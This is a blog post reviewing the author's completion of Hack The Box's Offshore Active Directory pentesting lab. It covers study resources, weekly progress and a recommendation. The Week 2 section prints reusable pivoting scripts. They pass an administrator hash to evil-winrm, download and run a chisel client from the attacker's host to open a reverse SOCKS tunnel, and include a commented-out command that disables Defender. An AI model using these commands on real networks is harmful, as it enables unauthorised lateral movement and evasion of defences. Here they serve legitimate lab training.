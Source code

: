 ```yaml
---
title: Offshore Review
layout: single
categories: [blog]
permalink: /:categories/:year/:month/:day/:title/
classes: wide
toc: true
show_date: true
excerpt: "My journey through HTB's Offshore Pro Lab!"
---
```


# Intro

December was gonna be another month of lockdown at home without much to do, so after a friend pwned it, and some nice troll from the InfoSec Prep discord started it, I decided to follow suit and to dedicate the month to [Offshore](https://www.hackthebox.eu/home/labs/pro/view/2)! Unfortunately I was a bit impatient, bought the lab access on the 1st of December at midnight, turned out that they had a 50% discount from the 1st of December, which was rolled out during the day, so missed that 😅

# Getting up to speed with Active Directory

I had dedicated the last 2 weeks of November to get up to speed with Active Directory and the attacks on it, I used [Attacking and Defending Directory](https://www.pentesteracademy.com/course?id=47) from PentesterAcademy (which is what comes bundled up with CRTP), the AD section of Heath Adam's Practical Ethical Hacking Udemy [course](https://www.udemy.com/course/practical-ethical-hacking/), and various blog posts about specific attacks I found after googling around a bit. Overall it was very much needed, as my first and last interaction with AD was with the HTB Forest box, which I had done while it was active, but with way too many hints, and without understanding what I was doing. Putting words in my head behind how Kerberos works, what kerberoasting or asreproasting is, how to get golden/silver ticket, etc helped a lot understanding the basics.

I even made my own little AD lab first on Azure, then at home, to follow along some attacks on Heath Adams' course and to experiment a bit. Some resources for that [here](https://csenox.github.io/active-directory/2020/10/07/AD-Lab/), [here](https://medium.com/@vartaisecurity/lab-building-guide-virtual-active-directory-5f0d0c8eb907), [here](https://kamran-bilgrami.medium.com/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f), [here](https://medium.com/swlh/building-an-active-directory-lab-part-1a-automatedlab-fc2399ebe5be), [here](https://social.technet.microsoft.com/wiki/contents/articles/36438.windows-server-2016-build-a-windows-domain-lab-at-home-for-free.aspx), and [here](https://1337red.wordpress.com/building-and-attacking-an-active-directory-lab-with-powershell/).

I decided to take the opportunity to learn some new tools, so I set up [Obsidian](https://obsidian.md/) for note taking, and [Covenant](https://github.com/cobbr/Covenant) as a C2. Spoiler, I ended up using more often metasploit than covenant as a C2 haha! Also set up a [Commando VM](https://github.com/fireeye/commando-vm) that could access my covenant server running on my Parrot machine, ended up doing everything from Parrot...

# Week 1: Baby steps

Armed with my new found AD knowledge, I started Offshore... and didn't see any AD attacks for a while 😅 There was some web attacks, a first pivot using SSH, some looking around making lots of noise (a blue teamer in charge of the offshore domains would have been able to run circles around me :P). But making friends along the way especially in the HTB discord server, we got together for some challenges, and I was at 25% at the end of my first week, on track to finish by Christmas!

# Week 2: Pivoting...

The first domain owned, started the pivoting game, and the AD attacks. It took me a few hours to find the best solutions for pivoting through the domains, using this [post](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/) which was very thorough in the many ways a red teamer can pivot through a network, and tired of having to type commands over and over, I decided to script my pivoting, and here's the result: (spoiler free and re-usable)

+ `pivot2.sh` to serve chisel64.exe, pipe the powershell script to evil-winrm, and set the proxychains config for this DC:

```bash
#!/bin/bash

if [ $# -ne 1 ]; then
    echo '-s[tart]/-r[un]'
    exit
fi

sudo sed -i 's/127\.0\.0\.1 108./127\.0\.0\.1 1080/' /etc/proxychains.conf

if [[ $1 = '-s' ]]; then
    echo '[+] Serving on port 8000...'
    python3 -m http.server 8000 > /dev/null 2>&1 &
    cat pivot2_s.ps1 | evil-winrm -u administrator -H YOUTHOUGHTYOUDSEEAHASHDIDNTYOU -i 172.16.X.X
else
    cat pivot2_r.ps1 | evil-winrm -u administrator -H YOUTHOUGHTYOUDSEEAHASHDIDNTYOU -i 172.16.X.X
fi
```

+ `pivot2_s.ps1` to upload and run the chisel client on the DC:

```powershell
# Set-MpPreference -DisableRealtimeMonitoring $true
cd ../appdata/local/temp
curl -outf chisel.exe http://10.10.14.XX:8000/chisel64.exe
./chisel client 10.10.14.XX:12345 R:1080:socks
```

+ `pivot2_r.ps1` to run the chisel client if it's already uploaded:

```powershell
# Set-MpPreference -DisableRealtimeMonitoring $true
cd ../appdata/local/temp
./chisel client 10.10.14.XX:12345 R:1080:socks
```

+ `pivot3.sh` to kill the HTTP server, launch the chisel server, and change the proxychains config for the new pivot:

```bash
#!/bin/bash

ps -aux | grep http.server | grep 8000 | grep -P '\d+' -o | head -1 | xargs kill 2>&1 > /dev/null
sudo sed -i 's/127\.0\.0\.1 108./127\.0\.0\.1 1081/' /etc/proxychains.conf
chisel server -p 12345 -reverse
```

You're welcome to steal those short scripts and adapt them for your pivoting needs! As I would get to know, I'd need a few of those to pivot through all the domains, in total 4 pivots!

# Week 3: AD Attacks are yummy

Cross domain and cross forest attacks were kinda new to me but I had a blast learning them! Also, ACLs can hide many juicy things :P Bloodhound was a lot of help in finding out how to abuse some ACLs and trusts, I wish I had used [PowerView](https://exploit.ph/powerview.html) more though and enumerated some stuff manually, would have prevented a lot of VM lagging and crashes because well I had obsidian, covenant, discord, and bloodhound running at the same time... But still learned a lot along the way, and the 3rd week was the 3rd quarter syndrome a bit, seeing how much work I had done, and seeing I had about the same amount still to do, and Christmas approaches...

# Week 4: Flag hunt

Total domain pwnage! I had owned all offshore domains... and was still missing a few flags. So on the enumeration hunt I went, trying to find some hidden flags, and turns out one of those was actually from a challenge that had been removed! Thanks to Ippsec for the help taking care of that!

24th of December, 3 PM, all domain flags in the pocket, getting ready for Christmas cooking... and still lacking one linux machine! This one turned up to be a bit of a closed beast, but was a very nice programming challenge, and I enjoyed writing the script to get the privesc on it, but that was on the 25th. So in the end Offshore completed, just on Christmas day :D And a nice certificate as a gift!

![Offshore Certificate]({{site.url}}/assets/images/offshore-certificate.png)

# Review

Overall I learned during my Offshore journey, some challenges were frustrating, some required a bit of help, I won't hide it, I made good friends along the way, and I'm very happy I could finish it under a month. I would recommend Offshore to all pentesters/hackers who want some more hands-on experience with AD attacks, and pivoting through networks, and who are not shy of googling stuff until it works. Very long but very good experience, looking forward to doing more AD related stuff in the future!
